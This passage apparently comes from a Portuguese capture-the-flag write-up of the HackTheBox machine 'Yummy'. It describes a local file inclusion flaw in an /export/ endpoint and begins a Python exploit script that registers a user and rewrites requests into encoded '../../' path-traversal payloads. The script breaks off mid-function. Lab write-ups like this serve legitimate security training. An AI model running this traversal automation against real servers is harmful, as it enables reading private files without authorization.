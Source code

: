 <figure><img src="../../../.gitbook/assets/ctfhtbyummylfi.png" alt=""><figcaption><p>HTB Yummy - Local File Inclusion</p></figcaption></figure>

Ou seja, é possível explorar uma LFI ao alterar o caminho após o `/export/` para um arquivo.

## Exploração

Mesmo encontrando a vulnerabilidade de LFI, o processo manual de exploração pode tomar muito tempo, então desenvolvi o seguinte script para facilitar:

```python
from requests import Session
from bs4 import BeautifulSoup
from requests.adapters import HTTPAdapter
import urllib.parse
import sys
import pathlib
import os

path = ""

# Um interceptador injetar o payload de LFI no endpoint /export
class RedirectInterceptor(HTTPAdapter):
    def send(self, req, **kwargs):
        if path and req.url.find("export") != -1:
            encoded_path = urllib.parse.quote(f"../../{path}", safe="")
            req.url = f"http://yummy.htb/export/{encoded_path}"
        return super().send(req, **kwargs)


# Implementa uma Session que utiliza o interceptador declarado
session = Session()
session.mount("http://", RedirectInterceptor())
session.verify = False
session.proxies = {"http": "http://127.0.0.1:8080"}

host = "http://yummy.htb"
email = sys.argv[1]
password = sys.argv[2]


# Cria um usuário com base nos argumentos informados na chamada do script
def register(email, password):
    url = host + "/register"
    data = {"email": email, "password": password}
    response = session.post(url, json=data)
```